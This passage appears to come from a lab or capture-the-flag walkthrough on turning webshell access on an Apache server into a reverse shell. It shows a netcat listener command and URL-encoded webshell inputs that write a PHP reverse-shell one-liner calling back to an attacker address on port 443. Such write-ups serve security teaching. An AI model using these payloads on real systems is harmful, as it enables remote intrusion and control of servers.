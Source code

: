    <img src="./img/i01-image5.png" width="500px"> 

   <img src="./img/i01-image6.png" width="500px">

5. Now the user has access to a webshell, allowing them to remotely execute code on the webserver as Apache2's `www-data` user. However, this webshell is hardly interactive, and the user should now pursue attaining a reverse shell. There a several ways to open a reverse shell, but here is one process:

    a. On the Kali machine, in a terminal, use `netcat` to listen on port `443` for an external connection.

    ```
    $ nc -nvlp 443
    ``` 

    b. Back in the webshell, we are unable to directly open a connection directly (i.e. pasting a url encoded php, bash, or python based reverse shell script will not work). However, there is a workaround in the form of using `echo` to remote create a bash script. To do this, we input the following command to the webshell:
    
    ```
    ?cmd=echo %5C%23!%2Fbin%2Fbash > exploit.sh
    ``` 

    Followed by:

    ```
    ?cmd=echo php+-r+%5C%27%5C%24sock%5C%3Dfsockopen%5C%28%5C%2210.0.0.0%5C%22%2C443%5C%29%5C%3B+exec%5C%28%5C%22%2Fbin%2Fsh+-i+%5C%3C%5C%263+%5C%3E%5C%263+2%5C%3E%5C%263%5C%22%5C%29%5C%3B%5C%27 >> exploit.sh
    ```

